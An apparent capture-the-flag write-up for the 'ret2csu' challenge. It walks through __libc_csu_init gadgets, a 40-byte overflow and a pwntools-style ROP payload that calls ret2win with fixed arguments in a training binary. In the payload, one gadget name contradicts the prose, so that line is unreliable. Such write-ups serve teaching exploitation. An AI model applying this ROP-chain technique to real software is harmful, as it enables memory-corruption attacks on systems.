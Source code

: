 # ret2csu
This is a blackhat paper, there are parts of useful codes in __libc_csu_init, which can call any functions with some of pop operations to set parameters.
```
...
#gadget1
0x0000000000400680 <+64>:	mov    rdx,r15
0x0000000000400683 <+67>:	mov    rsi,r14
0x0000000000400686 <+70>:	mov    edi,r13d
0x0000000000400689 <+73>:	call   QWORD PTR [r12+rbx*8]
0x000000000040068d <+77>:	add    rbx,0x1
0x0000000000400691 <+81>:	cmp    rbp,rbx
0x0000000000400694 <+84>:	jne    0x400680 <__libc_csu_init+64>
...
#gadget2
...
0x000000000040069a <+90>:	pop    rbx
0x000000000040069b <+91>:	pop    rbp
0x000000000040069c <+92>:	pop    r12
0x000000000040069e <+94>:	pop    r13
0x00000000004006a0 <+96>:	pop    r14
0x00000000004006a2 <+98>:	pop    r15
0x00000000004006a4 <+100>:	ret
...
#gadget3
0x04006a3 # pop rdi; ret;
...
```
gadget2 enable us to set values of r15, r14, r13, which in gadget1 can be assigned to edi, esi, edx, which in x86 64 calling convention are the 1st 2nd, 3rd parameters for function call. Also, gadget1 allows us to call any function with function address stored in [r12+rbx*8], which r12 and rbx can be controlled in gadget2.

Sometimes, we will need to execute gadget1 more than 1 time, then we will need to pass the compare instruction in gadget1, which the condition is rbx+1 == rbp, fortunately, rbx, rbp can be controlled by gadget2, rbx should be set to 0, and rbp should be set to 1.

In this problem, there is a function ret2win in libret2csu, we need to call it to get the flag. ret2win function hase three parameters which is 0xdeadbeefdeadbeef, 0xcafebabecafebabe, and 0xd00df00dd00df00d.

We can use gadget2 to set r13, r14, r15 to 0xdeadbeefdeadbeef, 0xcafebabecafebabe, and 0xd00df00dd00df00d, and then jump to gadget1 to call ret2win.

However, there are several problems, firstly, the first parameter of ret2win is 0xdeadbeefdeadbeef, which is 8 bytes, but the move instruction in gadget1 is edi, it only stores low 4 bytes, therefore the content of rdi will be 0xdeadbeef, which is the wrong parameters. 

To solve this, we need to call another gadget3 to set the rdi correctly, which means that we need to execute gadget1 twice, but in the first time, we still need to call a function, this function should be no effect to register we need. The simplest function is _init function.

To call _init we need to find the address of _init in some memory place, we can use ghidra or something else to search the pattern in memory.
```
...
init = 0x400398 # _init function address in memory
...
```
Now, we can build our payload, we call gadget2 to set values of registers we need in gadget1, then we call gadget1 to set the 2nd and 3rd paramters properly, and call _init function, which will not affect any registers value we need, the gadget2 will be execute once since gadget1 can only return at gadget2, we set the values for gadget2 pop operation accordingly. Next, we call gadget3 to set rdi value correctly, and then jump to gadget1 again, the address of ret2win is in got table, we can find the ret2win got table address through readelf.

The payload will be:
```
...
payload = b'A'*40 
# pop rbx, pop rbp, pop r12 --> call address(_init), pop r13 --> edi(1st parameter, but not correct), pop r14 --> rsi(2nd parameter), pop r15 -->rdx(3rd parameters)
payload += p64(libc_csu_init_pop_part) + p64(0x0) + p64(0x1) + p64(init) + p64(0xdeadbeefdeadbeef) + p64(0xcafebabecafebabe) + p64(0xd00df00dd00df00d)

payload += p64(align_gadget) + p64(libc_csu_init_call_part) # set 2nd, 3rd parameters, call _init
# add rsp 0x8
# pop rbx, pop rbp, pop r12 --> call address(ret2win), pop r13 --> edi, pop r14 --> rsi, pop r15 -->rdx
payload += p64(0x0) + p64(0x0) + p64(0x1) + p64(got_ret2win) + p64(0x0) + p64(0x0) + p64(0x0)

payload += p64(gadget1) + p64(0xdeadbeefdeadbeef) # set rdi to 0xdeadbeefdeadbeef

payload += p64(align_gadget) + p64(libc_csu_init_call_part + 9) # call ret2win
...
```
Get the flag:
```
ROPE{a_placeholder_32byte_flag!}
```
